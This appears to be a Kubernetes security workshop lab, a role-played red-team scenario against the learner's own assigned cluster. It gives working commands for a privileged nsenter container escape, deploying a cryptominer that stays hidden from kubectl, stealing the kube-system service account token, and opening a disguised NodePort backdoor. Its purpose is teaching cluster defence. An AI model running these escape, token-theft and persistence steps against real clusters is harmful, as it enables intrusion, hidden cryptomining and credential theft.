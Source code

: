 # Persistence: Scenario 2 Attack

## Backstory

### Name: __DarkRed__

* Highly-Skilled
* Sells Exfiltrated Data for $$
* Evades detection and employs persistence
* Uses env-specific tooling
* Creates bespoke payloads
* Expert Kubernetes knowledge

### Motivations

* __Red__ notices that the website is gone and the crypto-miners have stopped reporting in.
* __Red__ asks __DarkRed__ for help trying to get back into the Kubernetes cluster and gives __DarkRed__ the IP address.
* __Red__ will split the revenue if __DarkRed__ can get the miners back up and running.

## Initial Foothold

Seeing that the URL included port `31337` and that __Red__ said it was a Kubernetes `cluster`, it was likely to be exposed via a `NodePort` `service`. With this information she has a feeling that more `services` might still be exposed to the web this way. __DarkRed__ starts with indirect enumeration, such as searching on shodan.io, and follows up with direct portscanning via `nmap`.

To see what she'd see, from the Cloud Shell Terminal, scan the hundred ports around 31337 using a command similar to "nmap -sT -A -p 31300-31399 -T4 -n -v -Pn your-ip-address-goes-here". Be absolutely sure to scan your assigned IP address.

Your Cloud Shell has a little script to help:
```console
./attack-2-helper.sh
```

This scan confirms __DarkRed's__ suspicion that more services were present in this `cluster`. They all look like webservers, so explore them briefly with your browser.

__DarkRed__ notices that two of the services look like the company's main product, but the third is a juicy ops dashboard. Her intuition says that the dashboard is probably not maintained as carefully as the real product, and she focuses her attention there. Using tools such as `dirb`, `sqlmap`, `nikto`, and `burp`, she explores the dashboard, finds a vulnerability in a common web-development library, and exploits it to gain remote code execution on the server. For convenience, __DarkRed__ installs a webshell for further exploration.

Now, let's become __DarkRed__ and leverage this new access:

## Deploying Miners

The webshell can be found at <a href="http://your-ip:31336/webshell/" target="_blank">http://your-ip:31336/webshell/</a>, and uses your workshop credentials as before.

Your Cloud Shell has a little script to help:
```console
attack-2-helper.sh
```

Run a few commands to make sure it's working and gather some basic information:

```console
id; uname -a; cat /etc/lsb-release /etc/redhat-release; ps -ef; env | grep -i kube
```

Review the information. Check for Kubernetes access, and find the limits of our permissions:

```console
export PATH=/tmp:$PATH
cd /tmp; curl -LO https://storage.googleapis.com/kubernetes-release/release/`curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt`/bin/linux/amd64/kubectl; chmod 555 kubectl
kubectl get pods
kubectl get pods --all-namespaces
kubectl get nodes
kubectl auth can-i --list
```

Now that we've reviewed the basic limits of our access, let's see if we can take over the host. If we can, that will give us many more options to fulfill our nefarious whims.

Using <a href="https://twitter.com/mauilion/status/1129468485480751104" target="_blank">a neat trick from twitter</a>, let's attempt to deploy a container that gives us full host access:

```console
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
```

Let's unpack this a little bit: The kubectl run gets us a pod with a container, but the --overrides argument makes it special.

First we see `"hostPID": true`, which breaks down the most fundamental isolation of containers, letting us see all processes as if we were on the host.

Next, we use the nsenter command to switch to a different `mount` namespace. Which one? Whichever one init (pid 1) is running in, since that's guaranteed to be the host `mount` namespace! The result is similar to doing a `HostPath` mount and `chroot`-ing into it, but this works at a lower level, breaking down the `mount` namespace isolation completely. The `privileged` security context is necessary to prevent a permissions error accessing `/proc/1/ns/mnt`.

Convince yourself that you're really on the host, using some of our earlier enumeration commands:

```console
id; uname -a; cat /etc/lsb-release /etc/redhat-release; ps -ef; env | grep -i kube
```

It's been said that "if you have to SSH into a server for troubleshooting, you're doing Kubernetes wrong", so it's unlikely that cluster administrators are SSHing into nodes and running commands like `docker ps` directly.  By deploying our bitcoinero container via Docker on the host, it will show up in a `docker ps` listing.  However, Docker is managing the container directly and not the `kubelet`, so the malicious container _won't show up in a `kubectl get pods`_ listing.  Without additional detection capabilities, it's likely that the cluster administrator will never even notice.

First we verify Docker is working as expected, then deploy our cryptominer, and validate it seems to be running.

```console
docker ps
```

```console
docker run -d securekubernetes/bitcoinero
```

```console
docker container ls
```

## Digging In
Now that __DarkRed__ has fulfilled her end of the agreement and the miners are reporting in again, she decides to explore the cluster. With root access to the host, it's easy to explore any and all of the containers. Inspecting the production web app gives access to a customer database that may be useful later -- she grabs a copy of it for "safekeeping".

It would be nice to leave a backdoor for future access. Let's become __DarkRed__ again and see what we can do:

First, let's steal the kubelet's client certificate, and check to see if it has hightened permissions:

```console
ps -ef | grep kubelet
```

Note the path to the kubelet's kubeconfig file: /var/lib/kubelet/kubeconfig

```console
kubectl --kubeconfig /var/lib/kubelet/kubeconfig auth can-i create pod -n kube-system
```

Looks good! Let's try it:

```console
kubectl --kubeconfig /var/lib/kubelet/kubeconfig run testing --image=busybox --rm -i -t -n kube-system --command echo "success"
```

Oh no! This isn't going to work. Let's try stealing the default kube-system service account token and check those permissions. We'll need to do a little UNIX work to find them, since we're not exactly using the public API.


```console
TOKEN=$(for i in `mount | sed -n '/secret/ s/^tmpfs on \(.*default.*\) type tmpfs.*$/\1\/namespace/p'`; do if [ `cat $i` = 'kube-system' ]; then cat `echo $i | sed 's/.namespace$/\/token/'`; break; fi; done)
echo -e "\n\nYou'll want to copy this for later:\n\nTOKEN=\"$TOKEN\""
```

```console
kubectl --token "$TOKEN" --insecure-skip-tls-verify --server=https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT auth can-i get secrets --all-namespaces
```
Yes, this looks better! We save that token in our PalmPilot for later use, and publish a NodePort that will let us access the cluster remotely in the future:

```console
cat <<EOF | kubectl --token "$TOKEN" --insecure-skip-tls-verify --server=https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT apply -f -
apiVersion: v1
kind: Service
metadata:
  name: istio-mgmt
  namespace: kube-system
spec:
  type: NodePort
  ports:
    - protocol: TCP
      nodePort: 31313
      port: 31313
      targetPort: $KUBERNETES_SERVICE_PORT
---
apiVersion: v1
kind: Endpoints
metadata:
  name: istio-mgmt
  namespace: kube-system
subsets:
  - addresses:
      - ip: `sed -n 's/^  *server: https:\/\///p' /var/lib/kubelet/kubeconfig`
    ports:
      - port: $KUBERNETES_SERVICE_PORT
EOF
```

Press control-d to exit (and delete) the `r00t` pod.

If you like, you may validate that external access is working, using cloud shell:

```console
if [ -z "$TOKEN" ]; then
  echo -e "\n\nPlease paste in the TOKEN=\"...\" line and try again."
else
  EXTERNAL_IP=`gcloud compute instances list --format json | jq '.[0]["networkInterfaces"][0]["accessConfigs"][0]["natIP"]' | sed 's/"//g'`
  kubectl --token "$TOKEN" --insecure-skip-tls-verify --server "https://${EXTERNAL_IP}:31313" get pods --all-namespaces
fi
```

Now we have remote Kubernetes access, and our associate's bitcoinero containers are invisible. All in a day's work.
